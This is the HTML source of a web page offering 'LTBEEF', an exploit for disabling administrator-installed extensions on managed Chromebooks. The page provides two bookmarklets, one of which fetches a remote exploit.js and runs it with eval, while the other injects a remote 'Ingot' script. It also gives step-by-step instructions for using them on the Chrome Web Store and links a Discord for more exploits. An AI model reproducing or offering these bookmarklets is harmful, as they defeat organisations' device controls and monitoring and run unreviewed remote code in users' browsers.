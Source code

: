 style type="text/css">
	@import url('https://fonts.googleapis.com/css2?family=Roboto:ital,wght@0,300;0,400;0,500;1,300;1,400&display=swap');
	body {
  		background-color: #000000;
		text-align: center;
		color: white;
	}
	a {
		color: lightblue;
	}
	p {
		font-family: Roboto;
	}
	h1 {
		font-family: Roboto;
	}
</style>
<link rel="icon" type="image/png" href="favico.png" sizes="16x16"/>
<title>LTBEEF</title>

<img src="logo.png" width="250" style="float:left">
<br><br><br>
<h1>LTBEEF</h1>
<p style="text-align: center;">LTBEEF (Literally The Best Exploit Ever Found) is a exploit found by <a href="https://bypassi.com">bypassi</a> (Bypassi#7037) and is a great way to disable spyware that was installed on your chromebook by your SysAdmins!<br>The new UI was created by CompactCow#4717, Ingot ws created by Nebelung#1335<br><i>Site made by Piplup7575#6726, Logo created by LittleMissNyan</i></p>

<p><strong>Please note that this exploit has been patched in newer versions of chrome, and my not work. <a href="https://discord.gg/9w8pf35AUC">Join the TN discord for more exploits</a>!</strong></p>

<div style="text-align: center; border: solid; padding: 5px;">
<br><a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});"><strong>LTBEEF</strong></a><br>
<a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
"><strong>Ingot</strong></a>
<p>- Drag either of the above buttons to your bookmarks bar<br>
- Visit <a href="https://chrome.google.com/webstoreHIBDD">https://chrome.google.com/webstorex</a>. (This is a 404 page, and that is ok. If it is blocked, <a href="https://discord.gg/9w8pf35AUC">join the TN Discord server for support</a>!)<br>
- Click the bookmark (<strong>NOTE: This only works on the Chrome Web Store.</strong>)<br>
- Switch off the extentions you don't want to have anymore.<br> 
You're done! The extention should now be disabled.
</p>
</div><br>
